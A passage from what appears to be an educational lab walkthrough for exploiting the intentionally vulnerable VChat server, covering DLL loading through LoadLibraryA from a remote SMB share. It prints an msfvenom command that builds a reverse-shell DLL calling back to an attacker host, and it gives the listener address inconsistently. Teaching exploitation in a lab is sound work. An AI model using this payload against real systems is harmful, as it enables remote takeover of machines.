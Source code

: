 	```
3. Restart the VChat server, and set a breakpoint at the `JMP ESP` instruction, run the [exploit4.py](./SourceCode/exploit4.py) program and ensure that it works!

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/c509b866-ddc1-4fcf-8eff-3adc1a85d92b

#### Malicious DLLs
As was previously discussed in the introduction of this walkthrough DLLs are [Dynamic-Link-Libraries](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library), these are libraries that are loaded into memory, and shared between processes. If a program is set to use a custom DLL, or is not statically-linked then the addresses for the functions in a DLL will be resolved by a [Runtime Dynamic Linker](https://learn.microsoft.com/en-us/windows/win32/dlls/run-time-dynamic-linking) or a [Loadtime Dynamic Linker](https://learn.microsoft.com/en-us/windows/win32/dlls/load-time-dynamic-linking). In our case the use of the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) means we will be evoking the [Runtime Dynamic Linker](https://learn.microsoft.com/en-us/windows/win32/dlls/run-time-dynamic-linking). Once we have loaded and linked our malicious DLL to the executable we can use any function located within the DLL. Additionally if the DLL contains a [DLLMain(...)](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library#the-dll-entry-point) function, this will be ran once when the DLL is loaded. This is not present in all DLLs and when it is will often be used to initialize any data structures or variables that will be needed by the DLL functions. This should **not be confused** with DLL load order hijacking attacks which exploit the [search order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order) Windows uses for resolving DLLS.


DLLs are commonly used in Windows applications for a [number of reasons](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library#dll-advantages). One of the first to be mentioned is that fewer system resources will be used when the DLL is used by many processes as rather than loading and linking the library for each individual process, the DLL will be loaded into memory once and each processes that uses the DLL will be linked against it. DLLs also allow programs to at runtime load the correct DLL based on the requirements and conditions of the system, this promotes modular systems. Finally we can see that if a program uses DLLs they do not need to be recompiled and relinked if the DLL is modified and replaced; only if the function signature or returned values changes would the executable need to be modified and recompiled.

This is why DLLs are used in the Windows OS to provide API wrappers to the OS Systemcalls, in addition to the interrupts for Windows systemcalls not being the most stable and changing from time to time. You could use some [online resources](https://j00ru.vexillium.org/syscalls/nt/64/) that track the systemcall interfaces and recompile your program for each build but it is much simpler to use the APIS provided in the DLLs!


We will be using the fact that the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function can accept the location string in the form of a [Universal Naming Convention (UNC)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc) string. This allows us to use LoadLibraryA to load a malicious DLL hosted on a remote [SMB share](https://learn.microsoft.com/en-us/windows-server/storage/file-server/file-server-smb-overview). We will use the [Impacket-Scripts](https://www.kali.org/tools/impacket-scripts/) package of exploitation tools to host a SMB share on the Kali Linux machine!

We can **generate** the malicious DLL using [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) as it is capable of formatting output for use as a DLL. 

```
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=none -f dll -o mal.dll
```
* `-a x86`: Specify this is against a 32 bit program
* `--platform windows`: Specify this is against a process on a Windows system
* `-p `: Payload we are generating shellcode for.
    * `windows/shell_reverse_tcp`: Reverse TCP payload for windows
    * `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
    * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
    * `EXITFUNC=none`: The runs without an exit function, the program will likely crash after this finishes executing!
* `-f`: The output format 